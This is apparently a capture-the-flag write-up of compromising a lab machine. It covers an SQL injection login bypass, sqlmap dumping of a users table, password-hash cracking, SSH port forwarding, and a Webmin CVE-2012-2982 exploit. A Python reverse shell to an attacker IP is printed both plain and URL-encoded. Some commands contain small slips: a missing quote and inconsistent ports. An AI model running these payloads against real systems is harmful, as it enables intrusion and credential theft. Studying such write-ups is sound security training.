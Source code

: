 > sql injection, ssh reverse tunneling,

# Ports

- **80** : Apache/2.4.18

### Port 80 is used for exploiting

# 80

1.  Contains a login field. sql injection `'OR 1=1;--` authenticates us.
2.  Logging in redirects us to portal.php, which contains a search bar.

# EXPLOITATION

We can try sql injection in the searchbar using `sqlmap`

Capture the request containing search string and save it using burpsuite.

## sqlmap

1.  `sqlmap -r req.txt --dbs` gives us the db name as "db"
2.  `sqlmap -r req.txt -D db --table`, gives us tables, the important one is "users"
3.  `sqlmap -r req.txt -D db -T users --dump`, gives us user "agent47" with a password hash

Cracking the hash with john the ripper `john --wordlist /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=Raw-SHA256` gives the password as "videogamer124"

ssh using the credentials into the remote system.

# Actions in the low privilege shell

1.  The privilege escalation checklist for linux has been done. We find that the target uses 'webmin' when we ran `ps aux` and it comes up as `/usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf`
2.  Webmin documentation says it usually runs at localhost:10000 but we can't be access it using our web browser.
3.  We confirm that the port is open by running `netstat -ano` or alternatively `ss -tulpn`

We can use reverse ssh tunneling in such situations as the webmin port is not accessible from outside. ssh tunneling refers to the technique of forwarding the port from a remote server to a local host and their specified port.

4.  This is done in another terminal session of our attacking machine by running `ssh -L 10000:localhost:10000 agent47@10.10.138.200`
    - "ssh connect the **remote port 1000** to **the local port 10000** and ask for **service 'localhost'** of agent47@ip"
    
5.  We can now access the webmin portal from our browser by navigating to 'localhost:10000' and login using the same credentials for agent47.
    
6.  The webmin version is obtained from the html `<title` tag as 1.580. This version has an rce and an msf module is available. CVE-2012-2982
    
7.  msfmodule(`exploit/unix/webapp/webmin_show_cgi_exec`), or we can get the shell manually by crafting a reverse shell request to the browser.
    
8.  We can use the CVE information available [here](https://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf), to craft a web request containing the **urlencoded** one-liner python reverse shell(`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.34.204,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`) .
    
9.  The url looks like this
    `http://localhost:9000/file/show.cgi/bin/echo|python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.18.34.204%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27|`
    

We are now root.